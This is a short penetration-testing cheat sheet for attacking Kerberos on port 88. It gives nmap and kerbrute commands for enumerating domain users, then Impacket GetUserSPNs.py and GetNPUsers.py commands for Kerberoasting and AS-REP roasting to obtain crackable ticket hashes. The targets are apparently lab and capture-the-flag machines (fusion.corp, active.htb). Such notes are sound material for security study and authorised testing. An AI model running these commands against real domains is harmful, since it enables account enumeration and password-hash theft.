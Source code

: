 # Port 88 - Kerberus

## Enumerate users
### Nmap
```
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='fusion.corp',userdb=users.txt 10.10.249.23
```

### Kerbrute
```bash
1-Create a list of usernames (don’t forget to add Administrator and Guest)
2-Enumerate the domain name
3-Run the enumeration script

Example:
DNS_Domain_Name: SECRET.org
./kerbrute userenum /home/kali/users.txt -d secret.org --dc 192.168.100.55
#git clone https://github.com/ropnop/kerbrute.git
```

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.**

ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## **Retrieving Kerberos Tickets**

[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called **GetNPUsers.py** (located in `impacket/examples/GetNPUsers.py`) that will allow us to query **ASReproastable** accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a **valid set of usernames** which we enumerated previously via Kerbrute.

## Attempt to get a list of user service principal names:

```bash
GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs
```

## Get the Hash - TGT (ASPROASTABLE)

```
GetNPUsers.py 'fusion.corp/' -usersfile lparker.txt -no-pass -dc-ip 10.10.112.255 -format hashcat -outputfile hashes
GetNPUsers.py fusion.corp/lparker -no-pass -request -outputfile lparker.krb
```